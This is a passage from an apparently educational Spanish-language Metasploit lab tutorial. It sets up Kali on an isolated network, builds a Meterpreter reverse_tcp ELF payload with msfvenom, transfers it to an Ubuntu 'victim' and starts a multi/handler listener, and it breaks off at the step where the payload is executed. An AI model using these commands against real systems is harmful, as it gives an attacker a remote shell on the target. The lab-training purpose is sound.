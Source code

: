 Red: adaptador **red interna** (VirtualBox) o **host-only** (VMware).

---

#### 🛠️ Paso 1: Preparar Kali con Metasploit

Kali ya tiene Metasploit preinstalado. Si no lo tienes:

```bash
sudo apt update
sudo apt install metasploit-framework
```

Inicia Metasploit:

```bash
msfconsole
```

---

#### 🛠️ Paso 2: Crear Payload para Linux

Usamos `msfvenom` para crear un archivo ELF (ejecutable de Linux):

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.100.2 LPORT=4444 -f elf > shell.elf
```

Explicación:

- `-p linux/x64/meterpreter/reverse_tcp`: payload de Meterpreter para Linux.
- `LHOST`: IP de Kali.
- `LPORT`: puerto para la conexión inversa.
- `-f elf`: formato ejecutable Linux.

🔁 Transfiere `shell.elf` a la víctima:

- Con `python -m http.server` o `scp`.

---

#### 🛠️ Paso 3: Preparar el Handler en Metasploit

En Kali:

```bash
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.2
set LPORT 4444
run
```

---

#### 🖱️ Paso 4: Ejecutar el Payload en la Víctima

En la máquina Ubuntu:
